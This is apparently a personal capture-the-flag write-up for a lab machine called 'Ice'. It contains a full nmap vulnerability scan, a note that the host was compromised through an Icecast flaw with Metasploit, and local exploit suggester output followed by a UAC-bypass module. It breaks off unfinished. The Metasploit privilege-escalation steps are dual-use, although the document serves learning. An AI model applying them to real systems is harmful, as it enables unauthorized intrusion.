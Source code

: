# Ice Room

> Osama Albawab | 28/4/2020

-----------------------------------

# ------ 10.10.187.3 --------

# nmap scan
> `root@OZMA:~/Downloads# nmap -sS -sV -sC -A -p- --script vuln 10.10.187.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 02:42 +03
Nmap scan report for 10.10.187.3
Host is up (0.068s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ssl/ms-wbt-server?
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020:
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown:
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
8000/tcp  open  http               Icecast streaming media server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
49152/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49160/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49161/tcp open  msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/28%OT=135%CT=1%CU=37697%PV=Y%DS=2%DC=T%G=Y%TM=5EA770
OS:58%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M508NW8ST11%O2=M508NW8ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=M
OS:508NW8ST11%O6=M508ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M508NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   64.93 ms 10.9.0.1
2   75.57 ms 10.10.187.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 601.89 seconds

  `

# VULNERABLE to CVE-2004-1561
> exploited by metasploit
> sysinfo to see the system info
> Metasploit Local Exploit Suggester, or Lester for short. Lester is a post module that you can use to check a system for local vulnerabilities, [[ run post/multi/recon/local_exploit_suggester ]]
> `run post/multi/recon/local_exploit_suggester

[*] 10.10.187.3 - Collecting local exploits for x86/windows...
[*] 10.10.187.3 - 30 exploit checks are being tried...
[+] 10.10.187.3 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.187.3 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
`
> we ran exploit/windows/local/bypassuac_eventvwr
> [[ getprivs ]] to check for privileges
> TO BE CONTINUED.....

